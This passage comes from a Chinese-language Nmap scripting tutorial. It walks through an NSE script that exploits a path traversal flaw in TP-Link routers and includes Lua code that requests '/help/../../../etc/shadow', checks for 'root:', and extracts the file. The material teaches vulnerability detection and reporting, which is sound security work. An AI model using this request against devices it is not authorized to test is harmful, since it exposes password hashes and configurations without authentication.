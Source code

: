 ```
-- |   
-- |     References:
-- |_      http://websec.ca/advisories/view/path-traversal-vulnerability-tplink-wdr740
```

## 它是如何工作的。。。

脚本`http-tplink-dir-traversal.nse`执行以下任务以利用所讨论的路径遍历漏洞：

1.  首先，它发送路径遍历请求以确定安装是否易受攻击。
2.  如果安装有漏洞，请从 web 服务器发送的响应中提取请求的文件。
3.  向用户报告漏洞并提供概念证明。

在这种情况下，库`http`需要发送包含路径遍历负载的 HTTP 请求。为了确定设备是否易受攻击，我们请求文件`/etc/shadow`，因为我们知道该文件存在于所有设备中，并且其中必须存在根帐户：

```
local response = http.get(host, port, "/help/../../../etc/shadow")
```

响应应在其正文中包含请求的文件，在结束脚本标记`</SCRIPT>`之后：

![How it works...](graphics/7485_09_01.jpg)

要确认可利用性，我们只需要将响应主体与字符串“root:”匹配：

```
if response.body and response.status==200 and response.body:match("root:") then
    stdnse.print_debug(1, "%s:Pattern 'root:' found.", SCRIPT_NAME, response.body)
    return true
  end
```

Lua 捕获允许开发人员提取与给定模式匹配的字符串。他们非常有帮助，我强烈建议你和他们一起玩（[http://www.lua.org/pil/20.3.html](http://www.lua.org/pil/20.3.html) ：

```
local _, _, rfile_content = string.find(response.body, 'SCRIPT>(.*)')
```

一旦我们确认该漏洞，建议使用库`vulns`进行报告。创建此库是为了统一各种 NSE 脚本使用的输出格式。它支持多个字段以有组织的方式提供所有漏洞详细信息：

```
local vuln = {
       title = 'Path traversal vulnerability in several TP-Link wireless routers',
       state = vulns.STATE.NOT_VULN,
       description = [[
Some TP-Link wireless routers are vulnerable to a path traversal vulnerability that allows attackers to read configurations or any other file in the device.
This vulnerability can be exploited without authentication.Confirmed vulnerable models: WR740N, WR740ND, WR2543ND
Possibly vulnerable (Based on the same firmware): WR743ND,WR842ND,WA-901ND,WR941N,WR941ND,WR1043ND,MR3220,MR3020,WR841N.]],
       references = {
           'http://websec.ca/advisories/view/path-traversal-vulnerability-tplink-wdr740'
       },
       dates = {
           disclosure = {year = '2012', month = '06', day = '18'},       },
  }
  local vuln_report = vulns.Report:new(SCRIPT_NAME, host, port)
```

